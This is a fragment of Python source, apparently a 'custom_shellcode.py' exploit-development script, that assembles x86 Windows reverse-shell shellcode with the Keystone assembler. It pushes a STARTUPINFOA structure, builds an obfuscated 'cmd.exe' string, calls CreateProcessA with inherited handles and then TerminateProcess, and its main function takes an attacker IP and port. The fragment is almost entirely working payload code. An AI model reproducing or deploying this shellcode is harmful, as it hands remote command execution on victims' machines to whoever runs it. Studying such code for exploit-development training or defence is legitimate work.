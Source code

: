 ```py
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push dwFillAttribute
            "       push eax                        ;",  # Push dwYCountChars
            "       push eax                        ;",  # Push dwXCountChars
            "       push eax                        ;",  # Push dwYSize
            "       push eax                        ;",  # Push dwXSize
            "       push eax                        ;",  # Push dwY
            "       push eax                        ;",  # Push dwX
            "       push eax                        ;",  # Push lpTitle
            "       push eax                        ;",  # Push lpDesktop
            "       push eax                        ;",  # Push lpReserved
            "       mov al, 0x44                    ;",  # Move 0x44 to AL
            "       push eax                        ;",  # Push cb
            "       push esp                        ;",  # Push pointer to the STARTUPINFOA structure
            "       pop edi                         ;",  # Store pointer to STARTUPINFOA in EDI
            "   create_cmd_string:                   ",
            "       mov eax, 0xff9a879b             ;",  # Move 0xff9a879b into EAX
            "       neg eax                         ;",  # Negate EAX, EAX = 00657865
            "       push eax                        ;",  # Push part of the "cmd.exe" string
            "       push 0x2e646d63                 ;",  # Push the remainder of the "cmd.exe"
            "       push esp                        ;",  # Push pointer to the "cmd.exe" string
            "       pop ebx                         ;",  # Store pointer to the "cmd.exe" string
            "   call_createprocessa:                 ",
            "       mov eax, esp                    ;",  # Move ESP to EAX
            "       xor ecx, ecx                    ;",  # Null ECX
            "       mov cx, 0x390                   ;",  # Move 0x390 to CX
            "       sub eax, ecx                    ;",  # Substract CX from EAX to avoid overwriting the structure later
            "       push eax                        ;",  # Push lpProcessInformation
            "       push edi                        ;",  # Push lpStartupInfo
            "       xor eax, eax                    ;",  # Null EAX
            "       push eax                        ;",  # Push lpCurrentDirectory
            "       push eax                        ;",  # Push lpEnvironment
            "       push eax                        ;",  # Push dwCreationFlags
            "       inc eax                         ;",  # Increase EAX, EAX = 0x01 (TRUE)
            "       push eax                        ;",  # Push bInheritHandles
            "       dec eax                         ;",  # Null EAX
            "       push eax                        ;",  # Push lpThreadAttributes
            "       push eax                        ;",  # Push lpProcessAttributes
            "       push ebx                        ;",  # Push lpCommandLine
            "       push eax                        ;",  # Push lpApplicationName
            "       call dword ptr [ebp+0x18]       ;",  # Call CreateProcessA
            "   exec_shellcode:                      ",
            "       xor ecx, ecx                    ;",  # Null ECX
            "       push ecx                        ;",  # uExitCode
            "       push 0xffffffff                 ;",  # hProcess
            "       call dword ptr [ebp+0x10]       ;",  # Call TerminateProcess
    ]

    return "\n".join(CODE)

def main():
    help_message = "\n[i] Usage: python3 custom_shellcode.py [IP] [Port]"
    
    if (len(sys.argv) != 3):
        print(help_message)
    
    # Initialize engine in X86-32bit mode
    ks = Ks(KS_ARCH_X86, KS_MODE_32)

    encoding, count = ks.asm(reverse_shell(sys.argv[1], sys.argv[2]))
    print("Encoded %d instructions..." % count)
```